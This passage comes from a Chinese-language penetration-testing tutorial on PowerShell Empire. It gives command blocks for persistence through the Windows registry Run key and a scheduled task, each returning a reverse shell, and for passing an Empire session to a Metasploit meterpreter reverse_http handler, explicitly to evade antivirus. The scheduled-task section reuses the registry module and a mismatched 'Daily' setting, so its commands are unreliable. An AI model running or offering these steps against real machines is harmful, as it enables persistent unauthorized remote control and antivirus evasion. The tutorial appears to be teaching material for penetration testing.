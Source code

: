 ```
usemodule persistence/userland/registry
set Listener c1ay
set RegPath HKCU:Software\Microsoft\Windows\CurrentVersion\Run
```

--图片--

在目标机器的注册表可以看到成功增加了一个命令。

--图片--

只要目标机重启并登录后，就会反弹一个会话，如下图：

--图片--

## 5.3 计划任务获取系统权限
输入如下命令即可使用该模块，这里要设置DailyTime、Listener这两个参数，设置完后输入execute命令，到了设置的具体时间将成功返回一个高权限的shell，在实际渗透运行该模块时，杀软会提示。命令如下：

```
usemodule persistence/userland/registry
set Daily 23:58
set Listener c1ay
execute
```

--图片--

到指定时间后，会反弹一个shell。

--图片--

## 5.4 empire与MSF联动
在实际渗透中，当拿到webshell上传的MSF客户端无法绕过目标主机的杀软时，可以使用PowerShell来绕过，也可以执行Empire的Payload来绕过，成功之后再用Empire的模块将其反弹回MSF

这里使用如下命令使用该模块，设置Lhost和Lport参数即可，具体命令如下：

```
usemodule code_execution/invoke_shellcode
set Lhost 192.168.0.100
set Lport 8989
execute
```

在MSF执行如下命令：

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST 192.168.0.100
set LPORT 8989
run
```

--图片--
